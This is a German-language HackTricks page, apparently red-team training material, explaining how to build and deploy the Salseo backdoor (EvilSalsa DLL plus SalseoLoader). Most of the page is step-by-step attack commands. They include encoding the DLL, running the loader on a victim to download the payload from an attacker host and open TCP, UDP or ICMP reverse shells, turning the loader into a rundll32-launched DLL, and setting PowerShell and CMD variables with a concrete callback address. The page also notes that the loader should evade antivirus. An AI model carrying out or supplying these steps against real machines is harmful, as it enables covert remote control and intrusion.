 # Salseo

{% hint style="success" %}
Lernen & üben Sie AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Lernen & üben Sie GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstützen Sie HackTricks</summary>

* Überprüfen Sie die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teilen Sie Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos senden.

</details>
{% endhint %}

## Kompilieren der Binaries

Laden Sie den Quellcode von GitHub herunter und kompilieren Sie **EvilSalsa** und **SalseoLoader**. Sie benötigen **Visual Studio**, um den Code zu kompilieren.

Kompilieren Sie diese Projekte für die Architektur des Windows-Systems, auf dem Sie sie verwenden möchten (Wenn Windows x64 unterstützt, kompilieren Sie sie für diese Architektur).

Sie können **die Architektur auswählen** innerhalb von Visual Studio im **linken "Build"-Tab** unter **"Platform Target".**

(\*\*Wenn Sie diese Optionen nicht finden können, klicken Sie auf **"Project Tab"** und dann auf **"\<Projektname> Eigenschaften"**)

![](<../.gitbook/assets/image (132).png>)

Bauen Sie dann beide Projekte (Build -> Build Solution) (Im Protokoll wird der Pfad der ausführbaren Datei angezeigt):

![](<../.gitbook/assets/image (1) (2) (1) (1) (1).png>)

## Bereiten Sie die Hintertür vor

Zuerst müssen Sie die **EvilSalsa.dll** kodieren. Dazu können Sie das Python-Skript **encrypterassembly.py** verwenden oder das Projekt **EncrypterAssembly** kompilieren:

### **Python**
```
python EncrypterAssembly/encrypterassembly.py <FILE> <PASSWORD> <OUTPUT_FILE>
python EncrypterAssembly/encrypterassembly.py EvilSalsax.dll password evilsalsa.dll.txt
```
### Windows
```
EncrypterAssembly.exe <FILE> <PASSWORD> <OUTPUT_FILE>
EncrypterAssembly.exe EvilSalsax.dll password evilsalsa.dll.txt
```
Ok, jetzt hast du alles, was du brauchst, um das gesamte Salseo-Ding auszuführen: die **kodierte EvilDalsa.dll** und die **Binärdatei von SalseoLoader.**

**Lade die SalseoLoader.exe-Binärdatei auf die Maschine hoch. Sie sollten von keinem AV erkannt werden...**

## **Führe die Hintertür aus**

### **Erhalte eine TCP-Reverse-Shell (kodierte DLL über HTTP herunterladen)**

Denke daran, eine nc als Reverse-Shell-Listener und einen HTTP-Server zu starten, um das kodierte evilsalsa bereitzustellen.
```
SalseoLoader.exe password http://<Attacker-IP>/evilsalsa.dll.txt reversetcp <Attacker-IP> <Port>
```
### **Einen UDP-Reverse-Shell erhalten (kodierte DLL über SMB herunterladen)**

Denken Sie daran, ein nc als Reverse-Shell-Listener zu starten und einen SMB-Server, um das kodierte evilsalsa (impacket-smbserver) bereitzustellen.
```
SalseoLoader.exe password \\<Attacker-IP>/folder/evilsalsa.dll.txt reverseudp <Attacker-IP> <Port>
```
### **Einen ICMP Reverse Shell erhalten (kodierte DLL bereits im Opfer)**

**Diesmal benötigen Sie ein spezielles Tool auf dem Client, um den Reverse Shell zu empfangen. Laden Sie herunter:** [**https://github.com/inquisb/icmpsh**](https://github.com/inquisb/icmpsh)

#### **ICMP-Antworten deaktivieren:**
```
sysctl -w net.ipv4.icmp_echo_ignore_all=1

#You finish, you can enable it again running:
sysctl -w net.ipv4.icmp_echo_ignore_all=0
```
#### Führen Sie den Client aus:
```
python icmpsh_m.py "<Attacker-IP>" "<Victm-IP>"
```
#### Im Inneren des Opfers, lassen Sie uns das salseo-Ding ausführen:
```
SalseoLoader.exe password C:/Path/to/evilsalsa.dll.txt reverseicmp <Attacker-IP>
```
## Kompilieren von SalseoLoader als DLL, die die Hauptfunktion exportiert

Öffnen Sie das SalseoLoader-Projekt mit Visual Studio.

### Fügen Sie vor der Hauptfunktion hinzu: \[DllExport]

![](<../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png>)

### Installieren Sie DllExport für dieses Projekt

#### **Tools** --> **NuGet-Paket-Manager** --> **NuGet-Pakete für die Lösung verwalten...**

![](<../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png>)

#### **Suchen Sie nach dem DllExport-Paket (unter Verwendung des Browsen-Tabs) und drücken Sie Installieren (und akzeptieren Sie das Popup)**

![](<../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1).png>)

In Ihrem Projektordner sind die Dateien erschienen: **DllExport.bat** und **DllExport\_Configure.bat**

### **De**installieren Sie DllExport

Drücken Sie **Deinstallieren** (ja, es ist seltsam, aber vertrauen Sie mir, es ist notwendig)

![](<../.gitbook/assets/image (5) (1) (1) (2) (1).png>)

### **Beenden Sie Visual Studio und führen Sie DllExport\_configure aus**

Beenden Sie einfach Visual Studio

Gehen Sie dann zu Ihrem **SalseoLoader-Ordner** und führen Sie **DllExport\_Configure.bat** aus

Wählen Sie **x64** (wenn Sie es in einer x64-Box verwenden möchten, war das mein Fall), wählen Sie **System.Runtime.InteropServices** (innerhalb von **Namespace für DllExport**) und drücken Sie **Übernehmen**

![](<../.gitbook/assets/image (7) (1) (1) (1) (1).png>)

### **Öffnen Sie das Projekt erneut mit Visual Studio**

**\[DllExport]** sollte nicht länger als Fehler markiert sein

![](<../.gitbook/assets/image (8) (1).png>)

### Erstellen Sie die Lösung

Wählen Sie **Ausgabetyp = Klassenbibliothek** (Projekt --> SalseoLoader-Eigenschaften --> Anwendung --> Ausgabetyp = Klassenbibliothek)

![](<../.gitbook/assets/image (10) (1).png>)

Wählen Sie die **x64** **Plattform** (Projekt --> SalseoLoader-Eigenschaften --> Erstellen --> Plattformziel = x64)

![](<../.gitbook/assets/image (9) (1) (1).png>)

Um die Lösung zu **erstellen**: Erstellen --> Lösung erstellen (Im Ausgabekonsolenfenster wird der Pfad zur neuen DLL angezeigt)

### Testen Sie die generierte DLL

Kopieren Sie die DLL und fügen Sie sie dort ein, wo Sie sie testen möchten.

Führen Sie aus:
```
rundll32.exe SalseoLoader.dll,main
```
Wenn kein Fehler auftritt, haben Sie wahrscheinlich eine funktionale DLL!!

## Holen Sie sich eine Shell mit der DLL

Vergessen Sie nicht, einen **HTTP** **Server** zu verwenden und einen **nc** **Listener** einzurichten

### Powershell
```
$env:pass="password"
$env:payload="http://10.2.0.5/evilsalsax64.dll.txt"
$env:lhost="10.2.0.5"
$env:lport="1337"
$env:shell="reversetcp"
rundll32.exe SalseoLoader.dll,main
```
### CMD
```
set pass=password
set payload=http://10.2.0.5/evilsalsax64.dll.txt
set lhost=10.2.0.5
set lport=1337
set shell=reversetcp
rundll32.exe SalseoLoader.dll,main
```
{% hint style="success" %}
Lerne & übe AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Lerne & übe GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstütze HackTricks</summary>

* Überprüfe die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Tritt der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folge** uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teile Hacking-Tricks, indem du PRs zu den** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos einreichst.

</details>
{% endhint %}

